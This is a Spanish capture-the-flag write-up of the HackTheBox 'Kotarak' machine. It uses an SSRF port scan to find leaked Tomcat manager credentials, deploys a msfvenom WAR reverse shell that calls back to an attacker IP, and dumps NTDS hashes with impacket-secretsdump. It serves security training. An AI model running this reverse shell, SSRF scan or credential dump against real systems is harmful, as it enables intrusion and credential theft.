






HackTheBox
Hard
Linux
SSRF
Tomcat
NTDS
impacket
Kotarak
SSRF en puerto 60000 para descubrir credenciales Tomcat internas; WAR shell; volcado NTDS para obtener hashes.
cat4clysm
Herramientas utilizadas
nmap
wfuzz
msfvenom
impacket-secretsdump
Scanning
root@kali:~$
nmap -sC -sV -p 22,8009,8080,60000 -n -Pn 10.10.10.55 -oN targeted
Puerto 60000 - SSRF
root@kali:~$
wfuzz -c -z range,1-655535 --hl 2 '10.10.10.55:60000/url.php?path=127.0.0.1:FUZZ'
Encontramos el puerto 888 con un backup de Tomcat con credenciales:
view-source:http://10.10.10.55:60000/url.php?path=127.0.0.1:888?doc=backup
admin: 3@g01PdhB!Puerto 8080 - Tomcat Manager -> WAR Shell
Con credenciales del manager de Tomcat, subimos un WAR malicioso:
root@kali:~$
msfvenom -p java/jsp_shell_reverse_tcp lhost=10.10.14.14 lport=8888 -f war > gato.warDesplegamos el WAR y accedemos a http://10.10.10.55:8080/gato/.
Explotacion - ntds + impacket-secretsdump
root@kali:~$
cd /home/tomcat/to_archive/pentest_data
unzip ntdsxtract.zip
python3 -m http.server 1234
root@kali:~$
impacket-secretsdump -system *.bin -ntds *.dit LOCAL
Crackeamos los hashes con crackstation:

su atanas
# password: f16tomcat!Lecciones aprendidas
- El SSRF puede usarse para escanear servicios internos no accesibles directamente.
- Los backups de configuracion de Tomcat exponen credenciales del manager.
- impacket-secretsdump puede extraer hashes NTLM de archivos NTDS capturados.